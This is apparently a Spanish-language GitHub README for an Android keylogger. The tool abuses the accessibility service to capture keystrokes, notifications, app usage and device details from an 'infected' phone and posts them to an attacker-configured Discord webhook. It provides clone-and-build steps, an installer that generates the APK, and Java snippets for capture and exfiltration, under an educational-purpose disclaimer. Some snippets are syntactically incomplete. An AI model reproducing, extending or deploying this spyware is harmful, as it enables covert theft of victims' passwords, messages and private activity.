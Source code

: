 # Keylogger para Monitoreo en Android con Integración en Discord

## 📌 Descripción
Este proyecto es un **keylogger** para dispositivos Android que permite el monitoreo de pulsaciones de teclas, notificaciones y tiempo de uso de aplicaciones. Los datos recopilados se envían a un servidor de Discord a través de un webhook. Este proyecto tiene **fines académicos** y está diseñado para demostrar la importancia de la privacidad y seguridad en los dispositivos móviles.

## 🚀 Características
- Obtención de información del sistema infectado.
- Monitoreo de pulsaciones de teclas.
- Monitoreo de notificaciones recibidas.
- Registro del tiempo de uso de aplicaciones.
- Envío de datos a un servidor de Discord mediante un webhook.
- Instalador automatizado para la generación de la APK con configuración personalizada.

## ⚙️ Instalación
### Requisitos
- **Android Studio** con soporte para Gradle.
- **Python 3** instalado.
- Biblioteca `ttkbootstrap` para la interfaz gráfica del instalador:
  ```sh
  pip install ttkbootstrap
  ```

### Pasos de instalación
1. **Clonar el repositorio**
   ```sh
   git clone https://github.com/SolarSpectre/Android-Keylogger-Discord.git
   cd Android-Keylogger-Discord
   ```
2. **Ejecutar el instalador**
   ```sh
   python installer.py
   ```
3. **Ingresar la URL del webhook de Discord** y generar la APK.

![image](https://github.com/user-attachments/assets/42e74f16-1d10-4a2a-bac4-5bf57308af90)

4. **Instalar la APK en el dispositivo Android**.
5. **Activar los permisos de accesibilidad** para permitir el monitoreo.

## 🛠️ Funcionamiento
### 1️⃣ Obtener información del sistema
El keylogger recopila detalles sobre el dispositivo infectado, como fabricante, modelo, versión de Android y número de compilación.
```java
private String getSYSInfo() {
    return "MANUFACTURER : " + Build.MANUFACTURER + "\n" +
           "MODEL : " + Build.MODEL + "\n" +
           "PRODUCT : " + Build.PRODUCT + "\n" +
           "VERSION.RELEASE : " + Build.VERSION.RELEASE + "\n" +
           "VERSION.SDK.NUMBER : " + Build.VERSION.SDK_INT + "\n";
}
```

### 2️⃣ Monitoreo de pulsaciones de teclas
Utiliza el servicio de accesibilidad para capturar texto ingresado por el usuario.
```java
private void handleTextChangedEvent(AccessibilityEvent event) {
    List<CharSequence> textList = event.getText();
    for (CharSequence text : textList) {
        currentKeyEvents.append(text.toString()).append("\n");
    }
    sendBufferToDiscordAndClear();
}
```

### 3️⃣ Monitoreo de notificaciones
Registra las notificaciones recibidas en el dispositivo.
```java
private void handleNotificationChangedEvent(AccessibilityEvent event) {
    for (CharSequence text : event.getText()) {
        currentKeyEvents.append("Notification: ").append(text).append("\n");
    }
    sendBufferToDiscordAndClear();
}
```

### 4️⃣ Monitoreo del tiempo de uso de aplicaciones
Registra la duración de uso de cada aplicación abierta.
```java
private void handleAppFocusChange(AccessibilityEvent event, String time) {
    String packageName = event.getPackageName().toString();
    long timeSpent = System.currentTimeMillis() - lastFocusedTime;
    currentKeyEvents.append("App: " + packageName + " | Duration: " + (timeSpent / 1000) + "s\n");
    sendBufferToDiscordAndClear();
}
```

### 5️⃣ Envío de registros a Discord
Los datos recopilados se envían a un webhook configurado en Discord.
```java
public static void sendMessage(String logMessage) {
    JSONObject messageJSON = new JSONObject();
    messageJSON.put("content", "```\n" + logMessage + "\n```);

    URL url = new URL(WEBHOOK_URL);
    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
    connection.setRequestMethod("POST");
    connection.setRequestProperty("Content-Type", "application/json");
    connection.setDoOutput(true);
}
```

![image](https://github.com/user-attachments/assets/a108cf79-0845-428b-9a37-78f85e41eb6e)

> [!IMPORTANT]
> Este proyecto es únicamente **para fines educativos y de concienciación sobre seguridad informática**
> 
> **No debe usarse para actividades ilegales o malintencionadas**.
> 

## ✉️ Contacto
Autor: **Joseph Caza**  
[LinkedIn](https://www.linkedin.com/in/josephcaza/)  
GitHub: [SolarSpectre](https://github.com/SolarSpectre)
